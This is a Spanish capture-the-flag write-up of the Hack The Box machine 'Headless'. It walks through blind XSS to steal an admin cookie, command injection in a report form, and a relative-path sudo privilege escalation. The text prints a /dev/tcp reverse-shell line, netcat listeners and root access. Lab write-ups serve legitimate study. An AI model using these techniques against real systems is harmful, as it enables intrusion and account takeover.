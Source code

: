 ```yaml
---
layout: default
title: Headless
---
```

## ENUMERACIÓN
Primero comprobamos que hay conexión con el equipo.
```bash
$ ping -c 1 10.129.193.81
PING 10.129.193.81 (10.129.193.81) 56(84) bytes of data.
64 bytes from 10.129.193.81: icmp_seq=1 ttl=63 time=7.58 ms

--- 10.129.193.81 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 7.583/7.583/7.583/0.000 ms
```
Escaneamos a ver si tiene algún puerto abierto:
```bash
$ nmap 10.129.193.81
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 14:41 CDT
Nmap scan report for 10.129.193.81
Host is up (0.010s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
```
Vemos que tiene los puertos 22 y 5000 abiertos, vamos a escanearlos más a fondo:
```bash
$ nmap -sCV -p22,5000 10.129.193.81 -Pn
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-31 14:45 CDT
Nmap scan report for 10.129.193.81
Host is up (0.0076s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 90:02:94:28:3d:ab:22:74:df:0e:a3:b2:0f:2b:c6:17 (ECDSA)
|_  256 2e:b9:08:24:02:1b:60:94:60:b3:84:a9:9e:1a:60:ca (ED25519)
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/2.2.2 Python/3.11.2
|     Date: Sat, 31 May 2025 19:45:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 2799
|     Set-Cookie: is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs; Path=/
|     Connection: close
|     <!DOCTYPE html>
<<SNIP>>
```
Vemos que tiene una versión a priori no vulnerable de ssh y en el puerto 5000 corriendo un servidor web de Werkzeug. Podemos deducirlo por las cabeceras HTTP y por el código html que se ve abajo.
<img src="/Imagenes_Write_Ups/HTB/214858.png">
Nos encontramos esto al meternos a la página web, tenemos un botón `For questions` que si le damos nos redirige a un formulario de contacto en `http://10.129.193.81:5000/support`:
<img src="/Imagenes_Write_Ups/HTB/215005.png">
Podemos intentar una XSS, probaremos en el cuerpo de mensajes:
<img src="/Imagenes_Write_Ups/HTB/215037.png">
<img src="/Imagenes_Write_Ups/HTB/215202.png">
No nos sale la alerta que queríamos pero nos muestra que han detectado un ataque y que se enviarán estos datos (las cabeceras de la petición HTTP que realizamos) a los investigadores, lo que huele a ser una XSS ciega, tenemos control de todas las cabeceras, asi que capturaremos la petición con burpsuite.

Una vez en BurpSuite, con la petición, vamos a probar a inyectar código JavaScript en las Cookies:
![[Pasted image 20250531215724.png]]
Esto debería de darnos una alerta en el navegador que diga PWNED si las cookies son vulnerables a XSS.
![[Pasted image 20250531215920.png]]
En efecto, es vulnerable a XSS.
![[Pasted image 20250531215942.png]]
Podemos ver como en las cookies la `ShadowRooted_XSS` no se muestra, ya que es el código JavaScript, si le damos a inspeccionar podemos ver que pasa en esa parte:
![[Pasted image 20250531220114.png]]
Bien, sabiendo que es vulnerable y que la cookie se guarda como `is_admin` nos abriremos un puerto web con Python y usaremos un payload que nos envíe la cookie del administrador.
```bash
$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
Ahora, capturamos la petición de nuevo y añadimos en la cabecera de las cookies un payload que nos envíe la cookie del administrador que verá esta página.
![[Pasted image 20250531220845.png]]
A la espera de unos segundos recibimos la cookie:
```bash
10.129.193.81 - - [31/May/2025 15:09:47] "GET /admin_cookie?=is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```
Aparte de esa petición con la cookie nos hace otras 3, las cuales le da error 404, esto se debe a que el `document.location` le redirige a nuestra página y va a intentar buscar el archivo index, no obstante no existe, lo suyo sería usar otro método que haga menos ruido.

Una vez tenemos la cookie del administrador, investigaremos sobre directorios en la web con ffuf:
```bash
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FUZZ -u http://10.129.193.81:5000/FUZZ -ic

support                 [Status: 200, Size: 2363, Words: 836, Lines: 93, Duration: 43ms]
dashboard               [Status: 500, Size: 265, Words: 33, Lines: 6, Duration: 41ms]
```
Encontramos el directorio `dashboard`, con código 500, vamos a intentar acceder:
![[Pasted image 20250531221506.png]]
Recibimos que el servidor no pudo verificar si estamos autorizados para acceder al recurso. Bien, en las dev tools, en almacenamiento y en cookie, sustituimos la de `is_admin` por la obtenida del administrador y recargamos:
![[Pasted image 20250531221630.png]]
Una vez recargamos podemos acceder y vemos una opción para generar reportes de la página el cual pongamos la fecha que pongamos siempre nos devuelve `Systems are up and running!`:
![[Pasted image 20250531221746.png]]
Capturamos la petición con Burpsuite y la enviamos al repeater:
![[Pasted image 20250531223819.png]]
Vemos que envía el parámetro `date` el cual pongas lo que pongas, sea una fecha válida o no sea ni una fecha, nos dice lo mismo. Aquí podríamos probar una inyección de comandos en el parámetro `date`, lo probamos con un `|` para así en caso de existir la vulnerabilidad que nos muestre únicamente la salida de nuestro comando.
![[Pasted image 20250531224111.png]]
![[Pasted image 20250531224125.png]]
Vemos que la respuesta del servidor es el nombre del usuario que ejecuta el servidor web, por lo que sí, hay una vulnerabilidad que nos permite inyectar comandos, bien, nos pondremos a escucha en el puerto 4444 con `nc` y nos enviaremos una reverse shell:
```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
```
Con el siguiente payload deberíamos recibir una reverse shell:
![[Pasted image 20250531224648.png]]
```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.115] from (UNKNOWN) [10.129.193.81] 49456
bash: cannot set terminal process group (1147): Inappropriate ioctl for device
bash: no job control in this shell
dvir@headless:~/app$ whoami
whoami
dvir
dvir@headless:~/app$ 

```
Efectivamente tenemos la reverse shell, vamos a hacerla más interactiva con los siguientes comandos:
```bash
$ stty raw -echo;fg
```
(Este se ejecuta en la máquina atacante, tenemos que poner en segundo plano la revershe shell con `ctrl+z`).
```bash
dvir@headless:~/app$ export TERM=xterm
```
```bash
dvir@headless:~/app$ python3 -c 'import pty;pty.spawn("/bin/bash")'
```
Y ya tendríamos una shell interactiva.
En nuestro HOME tendríamos la flag de usuario:
```bash
dvir@headless:~$ ls
app  geckodriver.log  user.txt
dvir@headless:~$ cat user.txt
```
Si verificamos los permisos de sudo que tenemos vemos que podemos ejecutar como sudo y sin contraseña el script `syscheck` que se encuentra en `/usr/bin/`:
```bash
dvir@headless:~$ sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
Vamos a leer el contenido del script:
```bash
dvir@headless:~$ cat /usr/bin/syscheck
#!/bin/bash

if [ "$EUID" -ne 0 ]; then
  exit 1
fi

last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"

disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"

load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"

if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
fi

exit 0

```
Vemos que al final del script, ejecuta usando una ruta relativa el script `initdb.sh`. Al usar una ruta relativa, se ejecuta el script con ese nombre encontrado en el directorio en el que estemos nosotros. Por lo que podemos aprovechar para crear un script que nos proporcione una reverse shell como sudo:
```bash
dvir@headless:~$ cd /tmp/
dvir@headless:/tmp$ cat initdb.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.115/4444 0>&1

dvir@headless:/tmp$ chmod +x initdb.sh
```
Una vez creado el script y haberle dado permisos de ejecución, si ejecutamos el script `syscheck` con permisos sudo, obtendríamos una reverse shell como usuario root, no sin antes haber puesto a escucha el puerto 4444 en nuestra máquina atacante.
```bash
dvir@headless:/tmp$ sudo syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.07, 0.03, 0.02
Database service is not running. Starting it...
```
Y recibimos la reverse shell como root:
```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.115] from (UNKNOWN) [10.129.193.81] 56312
root@headless:/tmp# whoami
whoami
root

```
En `/root/` tenemos root flag:
```bash
root@headless:~# ls
root.txt
```
